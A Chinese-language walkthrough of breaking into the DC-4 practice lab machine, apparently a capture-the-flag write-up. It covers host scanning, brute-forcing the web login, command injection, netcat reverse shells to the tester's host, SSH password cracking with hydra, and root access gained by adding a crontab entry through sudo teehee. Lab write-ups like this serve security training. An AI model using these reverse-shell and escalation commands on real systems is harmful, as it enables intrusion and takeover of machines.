

DC4 靶机渗透
1. 渗透过程
- 主机发现
1 | nmap -sP 192.168.0.1/24 |
找到IP地址：
192.168.0.123扫描端口
1 | root@kali:~/workspace# nmap -sS -A -p- 192.168.0.123 |
看看80端口
只有一个登录框
抓个包试试
先试试有没有sql注入
1 | sqlmap -u http://192.168.0.123 --data "username=admin&password=1122" |
并没发现sql注入
扫描下目录
1 | dirb http://192.168.0.123 |
还是没啥啊~
只有爆破这条路了？
使用了BurpSuite爆破
得到账号密码：
admin : happy然后登陆
是一个执行命令的~
但是只有一些简单的命令
然后抓一个包，发现并没有对命令过滤。直接就提交了。
1 | POST /command.php HTTP/1.1 |
我们可以修改radio的数据改成一个反弹shell的就可以
我们先监听8899端口
nc -lvp 8899然后把radio的数据改成：
nc 192.168.0.21 8899 -e /bin/bash拿到shell就看到有有三个用户
1 | charles jim sam |
而且只有jim用户目录下有些东西：
backups mbox test.sh1
2
3
4
5
6
7
8
9
- 但是mbox无法查看
- `test.sh`也不知道有啥用
- 在jim/backups目录下看到一个old-password.bak，于是就拿来爆破jim的ssh密码
```bash
hydra -l jim -P old-passwords.bak ssh://192.168.0.123得到密码：
host: 192.168.0.123 login: jim password: jibril04然后就是登录jim用户了 尝试进一步提权
这时候可以查看mbox了
1 | jim@dc-4:~$ cat mbox |
- 是邮件。一般邮件保存在
/var/mail目录里面
1 | jim@dc-4:/var/mail$ cat jim |
发现了
charles的密码：^xHhA&hvim0y我们先登录到
charles
1 | su charles |
- 登录之后sudo -l 发现
1 | charles@dc-4:~$ sudo -l |
- 利用
/usr/bin/teehee提权
1 | sudo /usr/bin/teehee -a /etc/crontab */1 * * * * nc 192.168.0.21 8899 -e /bin/bash |
kali 监听8899端口，等1分钟
就可以获得root的shell了

!!!THE_END!!!
2. 重要数据
1 | # 1. 网站账号密码： |